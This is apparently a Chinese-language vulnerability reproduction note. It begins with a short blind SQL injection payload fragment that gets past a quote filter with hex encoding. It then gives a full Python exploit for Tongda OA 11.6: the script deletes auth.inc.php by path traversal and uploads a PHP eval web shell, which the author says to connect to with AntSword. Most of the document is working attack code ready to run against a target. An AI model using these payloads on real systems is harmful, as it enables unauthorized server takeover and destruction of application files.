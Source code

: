 经过测试发现过滤了单引号，对r字符进行转换成16进制,通过手工最终获得数据库用户名root

```
rlike (select (case when (substr(user(),1,1)='r') then 1 else 0x28 end))
```

```
rlike (select (case when (substr(user(),1,1)=0x72) then 1 else 0x28 end))
```





# 通达OA 11.6

## 影响版本

11.6



## 漏洞复现

脚本内容如下，核心思路就是删除网站里的一个名为auth.inc.php的文件，进而越权拿shell

一句话木马的连接密码为：x，最后蚁剑连一下

```python
import requests
target="http://192.168.16.112:8080/"     # 此处填写上面安装oa的ip及端口
payload="<?php eval($_POST['x']);?>"
print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("[*]Deleting auth.inc.php....")

url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("[*]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[-]Failed to deleted auth.inc.php")
    exit(-1)
print("[+]Successfully deleted auth.inc.php!")
print("[*]Uploading payload...")
url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('deconf.php', payload)}
requests.post(url=url,files=files)
url=target+"/_deconf.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[+]Filed Uploaded Successfully")
    print("[+]URL:",url)
else:
    print("[-]Failed to upload file")
```
